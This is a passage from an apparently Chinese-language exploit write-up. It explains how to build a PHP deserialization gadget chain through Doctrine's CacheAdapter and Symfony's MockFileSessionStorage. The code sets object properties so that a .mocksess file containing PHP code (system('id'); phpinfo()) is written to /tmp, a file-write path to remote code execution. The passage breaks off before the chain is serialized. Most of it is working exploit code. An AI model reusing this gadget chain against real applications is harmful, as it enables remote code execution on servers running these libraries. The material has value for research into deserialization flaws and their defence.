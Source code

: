 下面快速分析一下 `save` 函数，如果没有定义 `started` 属性，那么会触发前面的异常，所以需要设置为 `true` ，`MetadataBag` 对象也必须用 `storageKey` 属性定义。

```bash
$ find . -name '*MetadataBag*'
./vendor/symfony/http-foundation/Session/Storage/MetadataBag.php

$ cat ./vendor/symfony/http-foundation/Session/Storage/MetadataBag.php | grep getStorageKey -A 3
    public function getStorageKey(): string
    {
        return $this->storageKey;
    }
```

最后，需要将以下属性添加到 `MockFileSessionStorage` 对象：

-   `savePath` ：创建文件的路径
-   `id` ：将文件附加 `.mocksess` 扩展名
-   `data` ：生成的文件内容，这里将包含在服务器上执行的 PHP 代码

```bash
<?php

namespace Doctrine\Common\Cache\Psr6
{
    class CacheAdapter
    {
        public $deferredItems = true;
    }
    class TypedCacheItem
    {
        public $expiry = 99999999999999999;
        public $value = "test";
    }

}

namespace Symfony\Component\HttpFoundation\Session\Storage
{
    class MockFileSessionStorage
    {
        public $started = true;
        public $savePath = "/tmp"; // Produces /tmp/aaa.mocksess
        public $id = "aaa";
        public $data = ['<?php system("id"); phpinfo(); ?>'];
    }

    class MetadataBag
    {
       public $storageKey = "a";
    }
}

namespace PopChain
{
use Doctrine\Common\Cache\Psr6\CacheAdapter;
use Doctrine\Common\Cache\Psr6\TypedCacheItem;
use Symfony\Component\HttpFoundation\Session\Storage\MockFileSessionStorage;
use Symfony\Component\HttpFoundation\Session\Storage\MetadataBag;

$obj = new CacheAdapter();
$obj->deferredItems = [new TypedCacheItem()];
$mockSessionStorage = new MockFileSessionStorage();
$mockSessionStorage->metadataBag = new MetadataBag();
$obj->cache =$mockSessionStorage;

```